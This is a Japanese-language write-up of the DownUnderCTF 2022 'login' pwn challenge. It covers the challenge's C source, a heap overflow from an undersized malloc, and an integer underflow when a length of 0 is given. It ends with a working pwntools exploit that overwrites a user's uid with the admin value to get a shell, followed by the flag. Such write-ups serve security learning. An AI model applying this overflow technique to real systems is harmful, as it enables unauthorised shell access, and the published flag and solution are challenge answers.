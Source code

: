 # DownUnderCTF 2022 `login [pwn]` writeup

## 問題
Free shell for admins!

`nc 2022.ductf.dev 30025`

バイナリファイルとソースコードが提供される。

```c
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>


#define NUM_USERS 0x8
#define USERNAME_LEN 0x18
#define ADMIN_UID 0x1337

typedef struct {
    int uid;
    char username[USERNAME_LEN];
} *user_t;

int curr_user_id = ADMIN_UID;
user_t users[NUM_USERS];


void init() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
}

void read_n_delimited(char* buf, size_t n, char delimiter) {
    char c;
    size_t i = 0;
    while(i <= n - 1) {
        if(read(0, &c, 1) != 1) {
            break;
        }

        if(c == delimiter) {
            break;
        }

        buf[i++] = c;
    }
    buf[i] = '\0';
}

int read_int() {
    char buf[8];
    read_n_delimited(buf, 8, '\n');
    return atoi(buf);
}


void menu() {
    puts("1. Add user");
    puts("2. Login");
    printf("> ");
}

void add_user() {
    user_t user = (user_t) malloc(sizeof(user_t));
    users[curr_user_id++ - ADMIN_UID] = user;

    printf("Username length: ");
    size_t len = read_int();
    if(len > USERNAME_LEN) {
        puts("Length too large!");
        exit(1);
    }

    if(!user->uid) {
        user->uid = curr_user_id;
    }
    printf("Username: ");
    read_n_delimited(user->username, len, '\n');
}

void login() {
    int found = 0;

    char username[USERNAME_LEN];
    printf("Username: ");
    read_n_delimited(username, USERNAME_LEN, '\n');
    for(int i = 0; i < NUM_USERS; i++) {
        if(users[i] != NULL) {
            if(strncmp(users[i]->username, username, USERNAME_LEN) == 0) {
                found = 1;

                if(users[i]->uid == 0x1337) {
                    system("/bin/sh");
                } else {
                    printf("Successfully logged in! uid: 0x%x\n", users[i]->uid);
                }
            }
        }
    }

    if(!found) {
        puts("User not found");
    }
}


int main() {
    init();

    while(1) {
        menu();
        int choice = read_int();
        if(choice == 1) {
            add_user();
        } else if(choice == 2) {
            login();
        } else {
            exit(1);
        }
    }
}

```

## 解法
ユーザの追加 (8人まで)と追加したユーザでのログイン処理が実行できるプログラム。
ログインしたユーザのUIDが0x1337番ならシェルを取れる。
しかしながらUIDは0x1338, 0x1339, ... の順に割り当てれるので、普通にやっていてはadmin権限でのログインは果たせない。

まずはセキュリティ機構を確認。

[*] '/home/caffeine/ctf/ductf22/pwn/login/login'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

フルアーマーです。
とは言えプログラムに明白な欠陥があることにすぐ気が付くと思います。

ユーザを新たに追加するとき、プログラムはuser_t構造体のサイズ分mallocでメモリを確保している。
user_t構造体はint型のuidとusernameを格納するためのchar型のbufで構成されている構造体へのポインタ型として定義されている。
**構造体の実体ではありません。**

x64だとポインタ型のサイズは0x8バイトなので、切り出されるチャンクは最小サイズの0x20バイト。
この領域にuidとusernameを無理矢理格納しようとしてheap overflowが生じる。
具体的には、int型4バイト + usernameの最大サイズが0x18と定義されているので、4バイト分のheap overflowでtop chankのサイズを書き換えることができる。

最初は上述の解析結果からhouse of orangeやhouse of forceのようなものを疑いましたが違いました。反省。

チームメイトが気づいてくれたのだが、read_n_deliminated関数にも脆弱性がある。
この関数は`read_n_deliminated(char *buf, size_t n, char delimiter)`と引数を渡すことで、delimitorが現れる or n-1バイト読み込みNULL終端した上でbufに格納する。
nに0を指定した場合、n-1がオーバーフローを起こして10億バイトくらい読み込んでくれるようになる。

ユーザ追加時に名前の長さを0に指定、heap overflowで続くユーザのチャンクのuidの位置に0x1337を書き込んでやればよい。

## Exploit
admin権限でログインするユーザの名前を、read_n_deliminated関数の脆弱性に一早く気づいてくれたチームメイトの名前にした。
スペシャルサンクスみたいなものです。

```py
from pwn import *
import sys

elf = ELF("./login")

# io = process(elf.path)
io = remote("2022.ductf.dev", 30025)

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io)

def add(len, name):
    io.sendlineafter("> ", b"1")
    io.sendlineafter("length:", len)
    io.sendlineafter("Username: ", name)

def login(name):
    io.sendlineafter("> ", b"2")
    io.sendlineafter("Username: ", name)

payload = b"A" * 20
payload += b"\x51\x0d\x02\x00"
payload += b"\x00" * 4
payload += p64(0x1337)

add(b"0", payload)

add(b"10", b"laika")
login(b"laika")

io.interactive()
```

FLAG: `DUCTF{th3_4uth_1s_s0_bad_1t_d0esnt_ev3n_us3_p4ssw0rds}`